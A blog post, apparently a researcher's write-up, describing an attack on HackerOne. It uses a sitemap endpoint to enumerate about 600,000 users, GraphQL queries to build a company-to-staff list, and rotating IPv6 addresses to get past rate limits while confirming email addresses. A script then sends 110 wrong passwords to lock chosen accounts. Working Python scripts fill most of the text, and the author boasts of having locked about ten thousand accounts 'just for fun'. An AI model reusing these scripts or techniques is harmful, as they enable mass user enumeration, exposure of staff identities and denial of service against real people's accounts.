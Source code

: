 ```yaml
---
layout: post
title:  Enum H1 Staff and Users email addresses and Lock accounts
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

I found https://hackerone.com/sitemap.json a few months ago, but saw that only users starting withawere returned, but later I found out that it can be accessed via the parameter `first` Enumerate all users:

{% highlight http %}
https://hackerone.com/sitemap.json?first=[a-z]
{% endhighlight %}

After I got the id of nearly 600,000 users, thinking about how to use this data to maximize the harm?

So I thought of three ideas:

1. By requesting the `graphql` interface, query the team that each user belongs to. Reverse this result into: List of companies-> Staff. (Unrestricted)
2. Merge all common email addresses with ids, and enumerate whether the email addresses exists in the registration interface. (Limited, but can be bypassed with more IPv6)
3. Finally, you can use the blasted email addresses to log-in to the interface and request more than 100+ wrong passwords to lock your account. XD

## 0x01 Company -> Staff:

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8

import os
import time
import json
import string
import requests

def main(name):
    print name
    datas = {"operationName":"getTeams","variables":{"username":"{}".format(name)},"query":"query getTeams($username: String!) {\n  user(username: $username) {\n    memberships(first: 10, where: {concealed: {_eq: false}}) {\n      total_count\n      edges {\n        node {\n          id\n          team {\n            id\n            name\n            handle\n            state\n            profile_picture(size: small)\n            __typename\n          }\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

    headers={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
        "content-type": "application/json",
        "x-auth-token": "----",
        "Connection": "close"
    }
    try:
        r = requests.post("https://hackerone.com/graphql",headers=headers , data=json.dumps(datas), timeout=5)
        ret = json.loads(r.content)['data']['user']['memberships']
        if isinstance(ret['total_count'],int):
            f = open("done.txt",'a')
            f.write(name + '\n')
            f.close()

            if ret['total_count'] != 0:
                results = {name:[team['node']['team']['handle'] for team in ret['edges']]}
                print results
                with open("results/{}.txt".format(name),'w') as fp:
                    json.dump(results, fp, indent=4, ensure_ascii=False)
    except Exception,e:
        print e

if __name__ == '__main__':
    done = [i.strip() for i in open("done.txt")]
    for i in string.lowercase:
        with open("{}.txt".format(i)) as f:
            jf = json.load(f)
            for k in jf['users']:
                if k['username'] not in done:
                    ret = main(k['username'])
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa2.png)

After reversing, the staff corresponding to the company is generated:

{% highlight python %}
#coding:utf-8

import os
import json
import string

def main():
	companys = {}
	staffs = os.listdir('results')
	for sf in filter(lambda x:x[-4:] == '.txt',staffs):
		staff = sf[:-4]
		with open('results/{}'.format(sf)) as f:
			sTmp = json.load(f)
			for c in sTmp.values()[0]:
				if c not in companys.keys():
					companys[c] = []
				companys[c].append(staff)

	profiles = {}

	for i in string.lowercase:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['profiles']:
				profiles[k['handle']] = k['name']

	f = open("staffList.txt",'a')
	f.write("| Company (347) | Staff (3488) |\n| --- | --- |\n")
	for k,v in companys.items():
		inc = profiles[k] if k in profiles.keys() else k
		users = []
		for u in v:
			users.append("[{}](https://hackerone.com/{})".format(u,u))
		f.write('| [{}](https://hackerone.com/{}) | '.format(inc,k) + '、'.join(users) + ' |\n')
	f.close()


if __name__ == '__main__':
	main()
{% endhighlight %}

So I have a list of `347` teams corresponding to `3488` staff XD

<a href="https://github.com/Symbo1/HackerOne-Staffs" target="_blank">https://github.com/Symbo1/HackerOne-Staffs</a>

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa3.png)

## 0x02 Enumeration email addresses:

Under normal circumstances, the registered API will be frequency-limited, but can be bypassed by adding a large number of IPv6 enumerations:

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa4.png)

Here only use gmail for testing, in fact, you can also add outlook, yahoo, mail.ru ...

{% highlight python %}
import json
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(username):
	print username
	email = "{}@gmail.com".format(username)
	datas = {
		"user[email]": email
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/users",headers=headers , data=datas, timeout=5)
		ret = json.loads(r.content)["errors"]
		if ret:
			f = open("email-done.txt",'a')
			f.write(username + '\n')
			f.close()
			if "email" in ret.keys():
				print email
				f = open("emails.txt",'a')
				f.write(email + '\n')
				f.close()
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = []
	done = [i.strip() for i in open("email-done.txt")]
	for i in string.lowercase[:1]:
		with open("{}.txt".format(i)) as f:
			jf = json.load(f)
			for k in jf['users']:
				if k['username'] not in done:
					tasks.append(k['username'])
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa5.png)

After enumerating `30k+` ID's I stopped the testing, and `2887` of them returned with success: (ps. emmmm悄悄的说，后来我获取到了几万)

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa0.png)

As such, for total `600k` ID's, we may be able to get at least tens thousands of valid email addresses.

## 0x03 Lock accounts:

{% highlight python %}
import sys
import random
import string
import requests
import netifaces
from gevent import monkey
from gevent.pool import Pool
from requests_toolbelt.adapters import source

monkey.patch_all()
interfaces = 'ens3'

ips = []
for ipv6 in netifaces.ifaddresses(interfaces)[netifaces.AF_INET6]:
	if not ipv6['addr'].split(':')[0] == "fe80":
		ips.append(ipv6['addr'].split('%')[0])

def main(email):
	datas = {
		"email":email,
		"password":''.join(random.sample(string.lowercase,10)),
		"remember_me":"false"
	}

	headers={
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0",
		"Accept":"application/json, text/javascript, */*; q=0.01",
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/sessions",headers=headers , data=datas, timeout=5)
		print "password: {} {}".format(datas['password'],r.content)
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = [sys.argv[1]]*110
	pool = Pool(20)
	pool.map(main, tasks)
{% endhighlight %}

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa7.png)

After 100+ login attempts with incorrect passwords, the account was locked out successfully.

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa6.png)

If I want to lock someone's account, I just need to enumerate the email addresses and then loop the script. Because the session will be invalidated after being locked, and the `unlock token` is unique each time it is locked.

## 0x04 End.

后来的故事就是封了万个号，h1官方进行了修正，并向被锁账号们群发了该事件的邮件：

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa10.png)

Just For Fun :]
